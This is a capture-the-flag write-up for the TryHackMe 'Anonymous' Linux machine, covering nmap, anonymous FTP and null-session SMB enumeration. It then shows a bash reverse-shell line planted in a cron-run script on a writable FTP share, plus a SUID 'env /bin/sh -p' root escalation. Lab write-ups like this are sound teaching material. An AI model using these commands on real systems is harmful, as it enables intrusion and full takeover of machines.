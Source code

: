 ```yaml
---
title: "Tryhackme Anonymous Write-up"
date: 2021-02-15 16.40 
categories: [Tryhackme, Linux]
tags: [thm ,ftp, suid, env]
author: LXD
image: /assets/img/posts/anonymous/anonymous.png
---
```


Hello, Today we are going to solve a machine named `Anonymous` which is linux based machine from [Tryhackme](https://tryhackme.com/). Let's the solution step by step.

### Reconnaissance

- Nmap scanning
- FTP enumeration
- SMB enumeration

### Exploitation

- Writing to a writeable ftp file 
- Getting reverse shell

## Privilege Escalation

- Finding SUID Binaries
- Abuse of env SUID bit

## Reconnaissance

### Nmap Scanning

As always let's start with nmap scanning as described above.

> sudo nmap -sC -sV -oA nmap/anonymous-open-ports 10.10.25.138

Once we ran nmap by given command, it will return us following output;

```bash
# nmap -sC -sV -oA nmap/anonymous-ports -v -Pn 10.10.25.138
Increasing send delay for 10.10.25.138 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Nmap scan report for 10.10.25.138
Host is up (0.077s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.17.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   ANONYMOUS<00>        Flags: <unique><active>
|   ANONYMOUS<03>        Flags: <unique><active>
|   ANONYMOUS<20>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|_  WORKGROUP<1e>        Flags: <group><active>
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-10-22T14:13:41+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-10-22T14:13:41
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

### FTP Enumeration

According to the result of nmap, we have 4 open ports. FTP is running on port 21, SSH is running on port 22 and SMB is running on port 139,445.Regarding to the nmaps's output we can understand that FTP anonymous login is allowed. If we try to log in ftp server with anonymous and anonymous credentials, we'll get a successfull login. 

![FTP Login](/assets/img/posts/anonymous/ftp_login.png)

Once we login we can see that there is a directory called scripts and this directory has 3 different files. Here are the content of the directory.

`cleans.sh`
```bash
#!/bin/bash
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

`removed_files.log`
```bash
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

`to_do.txt`
```bash
I really need to disable the anonymous login...it's really not safe
```

As we can see ,we do have writing and execution privileges.

### SMB Enumeration

We can use the smbclient tool to list shared folders in SMB. 

> smbclient -L \\\\10.10.25.138\\

After running the command we see that there is shared folder named `pics`. We can log in to the smb server with the use of null authentication in SMB. 

> smbclient \\\\10.10.25.138\\pics -U ''

When we log in to smb, we see that there are 2 dog pictures.

![Dog 1](/assets/img/posts/anonymous/corgo2.jpg)
![Dog 2](/assets/img/posts/anonymous/puppos.jpeg)

`Spoiler Alert: These pictures will not lead you anything useful ,just a rabbit hole.`

## Exploitation

Since there is no any other service back to gather information, our next process will be exploitation. Now, we've only cleans.sh which is a scheduled task on the machine.

### Writing to clean.sh file

It runs per 1 minute and programmed to `echo` this text ("Running cleanup script:  nothing to delete") into `removed_files.log` file. If we put our reverse shell into `clean.sh`, we can gain access to the system as a low privileged user. Our code will be like this;

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.9.17.122/1337 0>&1
tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```

### Getting Reverse Shell

![Clean bash file](/assets/img/posts/anonymous/ftp_clean.png)

We replace the clean.sh file with ours. Once clean.sh file runs again we'll get a shell.

![Getting Shell](/assets/img/posts/anonymous/shell.png)

## Privilege Escalation

Now, It's time to upgrade our privileges. `I checked that if there is an any command that we can run with sudo rights but there's nothing.` 

### Abuse of env SUID bit

![Linpeas](/assets/img/posts/anonymous/linpeas.png)

Hmm it's interesting ,let's confirm it existence with following command:

> find / -user root -perm -u=s 2>/dev/null

![PE Confirmation](/assets/img/posts/anonymous/linpeas.png)


Indeed ,there's a non-standard SUID BIT calling `env`.


We can exploit this SUID bit like this;

> env /bin/sh -p

![Becoming Root](/assets/img/posts/anonymous/root.png)

We escalate our privilege to root.

Thank you for your time ,Stay Tunned!